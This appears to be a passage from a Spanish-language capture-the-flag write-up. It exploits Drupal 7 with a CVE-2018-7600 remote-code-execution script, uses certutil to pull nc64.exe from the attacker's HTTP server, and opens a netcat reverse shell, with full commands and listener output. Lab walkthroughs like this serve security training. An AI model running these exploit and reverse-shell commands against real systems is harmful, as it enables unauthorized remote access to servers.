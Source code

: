 El resultado es exitos vemos el usuario ``iusr`` de la maquina victima.

## Intrucion.

Como tenemos ejecucion remota de comandos voy a subir ``netcat.exe`` a la maquina victima para enviarme una revershell.

Creo un servidor con python y cargo el binario con ``certutil.exe``.

````python
❯ python3 drupa7-CVE-2018-7600.py http://10.10.10.9 -c 'certutil -urlcache -f -split http://10.10.14.6:8000/nc64.exe'

=============================================================================
|          DRUPAL 7 <= 7.57 REMOTE CODE EXECUTION (CVE-2018-7600)           |
|                              by pimps                                     |
=============================================================================

[*] Poisoning a form and including it in cache.
[*] Poisoned form ID: form-izLh7damGzaPVVEEEo024atRNYbr_Ere3FEqYUrPzNg
[*] Triggering exploit to execute: certutil -urlcache -f -split http://10.10.14.6:8000/nc64.exe
****  Online  ****
  0000  ...
  b0d8
CertUtil: -URLCache command completed successfully.
`````

````python
❯ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.10.10.9 - - [23/Nov/2022 22:48:16] "GET /nc64.exe HTTP/1.1" 200 -
10.10.10.9 - - [23/Nov/2022 22:48:17] "GET /nc64.exe HTTP/1.1" 200 -
`````

Ahora me pogo en escucha con nc y ejecutamos el ``nc64.exe`` para enviarnos las revershell.

````bash
❯ python3 drupa7-CVE-2018-7600.py http://10.10.10.9 -c 'nc64.exe -e cmd 10.10.14.6 443'

=============================================================================
|          DRUPAL 7 <= 7.57 REMOTE CODE EXECUTION (CVE-2018-7600)           |
|                              by pimps                                     |
=============================================================================

[*] Poisoning a form and including it in cache.
[*] Poisoned form ID: form-_4Ei7fNNgben-Ss5tJ5hGJ0zqSOGkeckNlh9GGrugpo
[*] Triggering exploit to execute: nc64.exe -e cmd 10.10.14.6 443
`````

````bash
❯ rlwrap nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.6] from (UNKNOWN) [10.10.10.9] 49179
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\inetpub\drupal-7.54>whoami
whoami
nt authority\iusr
`````
